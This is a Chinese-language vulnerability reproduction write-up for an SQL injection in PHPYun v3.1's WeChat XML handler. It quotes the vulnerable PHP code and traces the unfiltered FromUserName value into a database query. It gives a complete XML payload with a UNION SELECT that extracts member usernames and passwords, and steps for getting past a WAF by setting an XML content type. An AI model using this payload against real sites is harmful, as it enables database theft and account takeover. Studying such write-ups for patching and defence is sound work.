 # Phpyun v3.1 xml 注入漏洞

### 一、漏洞简介

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

### 二、漏洞影响

3.1 build14061

### 三、复现过程

**漏洞分析**

本次漏洞文件位于 weixin/model/index.class.php ，代码如下：


```php
private function responseMsg()
{
$postStr = $GLOBALS["HTTP_RAW_POST_DATA"];
```


```php
if (!empty($postStr)){

             $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
              $fromUsername = $postObj->FromUserName;
              $toUsername = $postObj->ToUserName;
              $keyword = trim($postObj->Content);
              $time = time();
              $textTpl = "<xml>
     <![CDATA[%s]]>
     <![CDATA[%s]]>
     %s
     <![CDATA[%s]]>
     <![CDATA[%s]]>
     0
     </xml>";
  if(!empty( $keyword ))
              {
              $msgType = "text";
               $contentStr = "Welcome to wechat world!";
               $resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);
               echo $resultStr;
              }else{
               echo "Input something...";
              }

      }else {
       echo "";
       exit;
      }
  }
```

这里将`$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]`，通过 simplexml_load_string解析后的内容，将其直接带入了$textTpl。

然而`$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]` ，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。

```
if($MsgType=='event')
{
$MsgEvent = $postObj->Event;
if ($MsgEvent=='subscribe')
{
$centerStr = "config['sy_webname'])."！/n 1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售 XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！]]>";
$this->MsgType = 'text';
```


```php
 }elseif ($MsgEvent=='CLICK')
  {
   $EventKey = $postObj->EventKey;
   if($EventKey=='我的帐号'){
    $centerStr = $this->bindUser($fromUsername);

   }elseif($EventKey=='我的消息')
   {
    $centerStr = $this->myMsg($fromUsername);
   }elseif($EventKey=='面试邀请')
   {
    $centerStr = $this->Audition($fromUsername);

   }elseif($EventKey=='简历查看')
   {

    $centerStr = $this->lookResume($fromUsername);

   }elseif($EventKey=='刷新简历')
   {

    $centerStr = $this->refResume($fromUsername);
```

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为isBind函数。

接下来追踪isBind函数：


```
private function isBind($wxid='')
{
```


```php
if($wxid)
{
 $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
}
if($User['uid']>0)
{
 $User['bindtype'] = '1';
 $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

}else{

 $Token = $this->getToken();
 $Url = 'https://api.weixin.qq.com/cgi-bin/user/info?access_token='.$Token.'&openid='.$wxid.'&lang=zh_CN';
 $CurlReturn  = $this->CurlPost($Url);
 $UserInfo    = json_decode($CurlReturn);

 $wxid        = $wxid;
 $wxname      = $UserInfo->nickname;
 $this->config['token_time'] = time();

 $User['cenetrTpl'] = '<![CDATA[您还没有绑定帐号，config['sy_weburl'].'/wap/index.php?m=login&wxid='.$wxid.'">点击这里进行绑定!]]>';
}

return $User;

}
```

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的$wxid就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：


```bash
Content-type:text/xml;charset=utf-8
```

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![9f2c0fa9ccd940bcbfb2c47684ef105a](images/9f2c0fa9ccd940bcbfb2c47684ef105a.gif)


这个时候已经是登录状态，我们按F9 调出 Hack Bar 的界面，点击Enable Post data ，将Payload写入输入框，如下图所示：

![](images/15893362898757.png)


**payload文件:**

注:payload文件内容需手动输入相应位置


```xml
<?xml version="1.0" encoding="utf-8"?>
  <xml>
    1111
    1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
    1402550611
    event
    CLICK
    我的账号
    0
  </xml>
```

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开Tamper Data ，点击启动。

![3edd0fccfc094e3d99011960a41bbd17](images/3edd0fccfc094e3d99011960a41bbd17.gif)


现在前提工作已经做好，接下来重新访问网站，Tamper Data 就会抓取到数据包，再对数据包进行更改，操作如图：

![9ae4f05f515e4b04b1ab768329e4ec4e](images/9ae4f05f515e4b04b1ab768329e4ec4e.gif)


然后点击确定就可以将构造好的数据包发出去：

![0409839dc9fb4d8c8dcbfdf347266a6a](images/0409839dc9fb4d8c8dcbfdf347266a6a.gif)


成功获取管理员账号密码。

**参考链接**

https://blog.csdn.net/whatiwhere/article/details/84862236